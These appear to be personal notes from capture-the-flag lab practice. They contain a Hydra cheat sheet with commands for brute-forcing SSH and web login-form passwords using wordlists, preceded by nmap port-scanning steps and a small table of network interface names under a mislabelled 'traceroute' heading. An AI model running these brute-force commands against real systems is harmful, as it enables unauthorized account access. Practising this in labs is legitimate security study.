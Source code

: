 


---

## traceroute



| command | Description                  |
| :------ | :--------------------------- |
| `eth0`  | ethernet connection<br>      |
| `wlan0` | wireless internet connection |
| `lo`    | loop back                    |
| `tun0`  | vpn interface                |



---

## Hydra



`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

1. use `nmap -sT ipxxx` to find what protocol the user is using . or using `nmap -p-`
2. for example if it is ssh, try `ssh alice@ipxxx` see if it is work
3. then use hydra find the password: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

**If in the "website" situation:**
after figure out which port should use : `http://xxx.xxx.xxx:portNumber` (for example: `http://10.10.241.123:2137`)
1. Open developer tool, check what protocol it is using:  here is using http-form-post
```
<form method="post" action="#">   
<label for="pass">Password</label><br>   
<input type="test" name="dms_pass"><br>   
<button type="submit">Open the door</button>   
</form>
```
	Also we can see  password name is actually dms_pass (focus on the "input")
2. use hydra: 
`hydra -l <username> -P <password_list> -s <port_number> -t 64 -f <host> <protocol> "/:<password-input-field>=^PASS^:wrong"`
	`<username>`: if no username, don't need to fill in, just ""
	`<password_list>`: the password list file
	`<port_number`: scan all port, find the port for this web
	-t 64: try 64 connections at once
	-f: stop once find the password
	`<host>`: the target IP address
	`<protocol>`: for example http-form-post
	`<password-input-filed>` : the name in the html form for the password input, for example in this case: dms_pass
